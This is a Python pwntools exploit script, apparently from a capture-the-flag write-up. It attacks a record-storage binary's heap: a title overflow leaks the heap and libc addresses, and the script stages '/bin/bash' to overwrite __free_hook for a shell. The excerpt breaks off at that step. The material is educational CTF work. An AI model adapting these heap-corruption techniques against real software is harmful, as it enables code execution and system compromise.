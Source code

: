 ```python
# small string record
store_record('short', 'lol')

# prep for libc leak
# I want 8 chunks with 0x100 malloc content (long strings)
for x in range(8):
    store_record(str(x), 'lolaaaaaaaaaaaaaaaa')

# then one 'end' chunk to block 
# the others from being merged with top chunk
store_record('end', 'bruh')

# heap leak
# modify title, removing the null terminator
# we have to use one of the malloc strings chunks
# Also we use 'print all' because we need to print the title,
# Return record won't do
modify_title('0', 'b'*9)
print_all()
io.recvuntil('b'*9)
heap_base = u64(b'\x00' + io.recv(5) + b'\x00\x00') & 0xFFFFFFFFFFFFF000
log.info(f'Heap Base: {hex(heap_base)}')

# Put the title and the 'short string' byte back to normal
# We need to do this or we won't be able to fill the 0x110 bin
modify_title('b'*8, '0' + '\x00'*7 + '\xa0')

# Fill the 0x110 tcache bin and put one on the unsorted bin
# The unsorted bin chunk will have pointers to libc main arena
for x in range(8):
    delete_record(str(x))

# Recover the libc leak
libc_leak_addr = heap_base + 0xaf0 # found with gdb

# Use shortstring to place 7 bytes of the address
new_content = p64(libc_leak_addr)[1:]
modify_content('short', new_content)

# Use the overflow on the title to set the
# least important byte of the nextptr, removing the shortstring flag
# and placing the remaining byte of the address to leak
new_title = 'short' + '\x00'*3 + chr(libc_leak_addr & 0xFF)
modify_title('short', new_title)

# Now 'short' is actually a malloc record, and its content will
# give us libc leak. Let's recover it.
return_record('short')
libc.address = u64(io.recv(6) + b'\x00\x00') - \
    (0x7fe47906bca0 - 0x7fe478c80000) # found with gdb
log.info(f'Libc Base: {hex(libc.address)}')

# make 'short' a short string record again
new_title = 'short' + '\x00'*3 + '\x01'
modify_title('short', new_title)

# set up a chunk to store the shell command
store_record('shell', '/bin/bash\x00' + 'a'*10)

# modify free hook, using pretty much
# the same technique we used to leak libc
# Except instead of reading the content,
# we write to it. the content will be free_hook
```